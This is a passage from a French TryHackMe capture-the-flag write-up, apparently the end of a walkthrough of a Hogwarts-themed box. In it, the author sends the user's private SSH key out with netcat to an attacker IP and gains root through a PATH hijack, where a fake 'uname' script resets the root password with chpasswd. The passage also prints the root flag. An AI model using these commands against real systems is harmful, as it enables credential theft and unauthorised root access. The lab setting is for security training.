Le programme fonctionne mais mon shell n'est pas bien stabilisé.  

```bash
hermonine@hogwartz-castle:/home/hermonine$ cd .ssh/
hermonine@hogwartz-castle:/home/hermonine$ cd .ssh/
hermonine@hogwartz-castle:/home/hermonine/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/hermonine/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/hermonine/.ssh/id_rsa.
Your public key has been saved in /home/hermonine/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:NLMsXugPaFNATGzV0KrtwsWW8zn2wnNbV9L2HpUiAF0 hermonine@hogwartz-castle
The key's randomart image is:
+---[RSA 2048]----+
|   +o.o=. .E     |
|   .+   +.       |
|   ..  .+.       |
|     ..+ +.    ..|
|     ++.S  . ...=|
|    .=Bo    . .+o|
|   .++++ .  . ...|
|   .o..oO .. . ..|
|     . ..*o.    .|
+----[SHA256]-----+
hermonine@hogwartz-castle:/home/hermonine/.ssh$ cp id_rsa.pub authorized_keys

-----------

tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > key

-----------

hermonine@hogwartz-castle:~/.ssh$ nc 10.9.228.66 1234 < id_rsa
tim@kali:~/Bureau/tryhackme/write-up$ chmod 700 key 

-------------
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i key hermonine@hogwartz-castle.thm
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Tue Oct  5 08:16:03 2021 from 127.0.0.1

```

On génère des nouvelles clefs et on se connecte avec un bon shell.  

```bash
hermonine@hogwartz-castle:~$ python3 2time.py
b'Guess my number: Nice use of the time-turner!\n'
b'This system architecture is x86_64\n'
```

On voit que notre scripte fonctionne que uname -p est exécuté.   

```bash
hermonine@hogwartz-castle:~$ cd /tmp
hermonine@hogwartz-castle:/tmp$ 
hermonine@hogwartz-castle:~$ cd /tmp
hermonine@hogwartz-castle:/tmp$ echo '#!/bin/sh' > uname
hermonine@hogwartz-castle:/tmp$ echo 'echo "root:root" | chpasswd' >> uname
hermonine@hogwartz-castle:/tmp$ chmod u+x uname 
```

On va créer un faux uname qui exécute un bash.   

```bash
hermonine@hogwartz-castle:/tmp$ export PATH=/tmp:$PATH
```

On modifie le variable PATH pour que notre faux fichier s'exécute en permier.  

Notre scripte va changer le mot de passe de root par le mot de passe root.   

```bash
hermonine@hogwartz-castle:/tmp$ python3 /home/hermonine/2time.py 
b'Guess my number: Nice use of the time-turner!\n'
Traceback (most recent call last):
  File "/home/hermonine/2time.py", line 18, in <module>
    print(p.readline())
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 1405, in wrapper
    return func(self, *a, **kw)
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 467, in recvline
    return self.recvuntil(self.newline, drop = not keepends, timeout = timeout)
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 310, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 82, in recv
    return self._recv(numb, timeout) or b''
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 160, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 131, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/process.py", line 716, in recv_raw
    raise EOFError
EOFError

hermonine@hogwartz-castle:/tmp$ su
Password: 
root@hogwartz-castle:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

root@hogwartz-castle:/tmp# cat /root/root.txt 
RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```

On exécute le scripte poour qu'il change le mot de passe.  
Une foit le mot de passe changé on se connecte en root.   
On lit le fichier root.txt dans le répertoire root.  

La flag est : RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}  
